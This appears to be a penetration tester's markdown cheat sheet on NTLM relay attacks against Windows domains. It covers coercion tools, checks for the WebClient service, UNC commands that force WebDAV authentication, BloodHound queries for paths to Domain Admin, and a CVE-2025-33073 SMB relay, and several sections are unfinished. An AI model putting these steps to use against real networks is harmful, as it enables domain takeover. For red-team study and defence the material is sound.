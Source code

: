 ```yaml
---
title: 'NTLM Relaying Tips and Tricks'
---
```

## NTLM Relay Cheat Sheet
![NTLM Relay](/assets/img/2025-06-18/NTLM_Relay.svg)

**Note:** The cheat sheet assumes modern Windows with NTLMv2 being used. NTLMv1 acts the same as HTTP and can be relayed to anything indicated by the “1”. When relaying NTLMv1 using `ntlmrelayx` you must use the `--remove-mic` flag in most cases (such as SMB->LDAP).

## Coerced Authentication via RPC Methods (PetitPotam, ShadowCoerce, DFSCoerce, SpoolSample, etc.)

[Coercer](https://github.com/p0dalirius/Coercer) is your best bet. It covers many of the PoCs discovered into a single well tested tool. It also works well using a SOCKS5 proxy. Remember to use the `--auth-type {smb,http}` flag because in many cases you want HTTP. It can almost always coerce SMB auth, and sometimes HTTP (via WebDAV) if the WebClient service is running.

[ntlmrelayx](https://github.com/fortra/impacket) is the de facto relaying tool. It can capture auth on a wide range of protocols, relay to a wide range of services, and automatically perform many attacks. 

### Checking for WebDAV

The Windows WebClient service can be used to determine if coerced auth via WebDAV (HTTP) will work. Any Domain User can determine if that service is running to find good potential relay victims.
- Linux: <https://github.com/Hackndo/WebclientServiceScanner>
- Linux: <https://github.com/Pennyw0rth/NetExec>
- Windows: <https://github.com/MorDavid/SharpWebClientScanner>



You can send out auth using WebDAV with different ports, and HTTP/HTTPS like so:
```
dir \\bbout\folder
dir \\bbout@8443\folder
dir \\bbout@SSL\folder
dir \\bbout@SSL@8443\folder
```

Its probably also worth marking all these targets in BloodHound to see which gives paths to DA like so:
#### Neo4j Console Bulk Mark as Owned
```
MATCH (u:Computer) WHERE (u.name IN [
"SERVER1.CONTOSO.COM",
"SERVER2.CONTOSO.COM",
"SERVER3.CONTOSO.COM",
"SERVER4.CONTOSO.COM"
]) SET u.owned = true
```
#### Shortest Path to DA from Owned Computers
The new BloodHound CE uses a different system for owned users, so you'll have to write your own cypher qureies like so:
```
MATCH p=shortestPath((s:Computer)-[:Owns|GenericAll|GenericWrite|WriteOwner|WriteDacl|MemberOf|ForceChangePassword|AllExtendedRights|AddMember|HasSession|GPLink|AllowedToDelegate|CoerceToTGT|AllowedToAct|AdminTo|CanPSRemote|CanRDP|ExecuteDCOM|HasSIDHistory|AddSelf|DCSync|ReadLAPSPassword|ReadGMSAPassword|DumpSMSAPassword|SQLAdmin|AddAllowedToAct|WriteSPN|AddKeyCredentialLink|SyncLAPSPassword|WriteAccountRestrictions|WriteGPLink|GoldenCert|ADCSESC1|ADCSESC3|ADCSESC4|ADCSESC6a|ADCSESC6b|ADCSESC9a|ADCSESC9b|ADCSESC10a|ADCSESC10b|ADCSESC13|SyncedToEntraUser|CoerceAndRelayNTLMToSMB|CoerceAndRelayNTLMToADCS|WriteOwnerLimitedRights|OwnsLimitedRights|CoerceAndRelayNTLMToLDAP|CoerceAndRelayNTLMToLDAPS|Contains|DCFor|SameForestTrust|SpoofSIDHistory|AbuseTGTDelegation*1..]->(t:Group))
WHERE s.enabled = true
AND s.owned = true
AND t.objectid ENDS WITH '-512'
RETURN p
```

Then simply coerce the best targets and compromise them via RBCD or Shadow Creds.

#### CVE-2025-33073
If computers are missing [CVE-2025-33073](https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025), and doesn't require SMB signing, you can relay SMB->SMB using CVE-2025-33073. This effectivaly gets admin on the computer. 



### via Spoofing Attacks (LLMNR, NBT-NS, MDNS, DHCPv6 DNS takeover, ARP, etc.)
- todo

### via Share Poisoning (.lnk, .url, .library-ms, .searchConnector-ms, etc.)
- todo

## Post-Exploitation

### Resource Based Constrained Delegation
- todo

### Shadow Credentials
- todo

## Useful Links
- <https://logan-goins.com/2024-07-23-ldap-relay/>
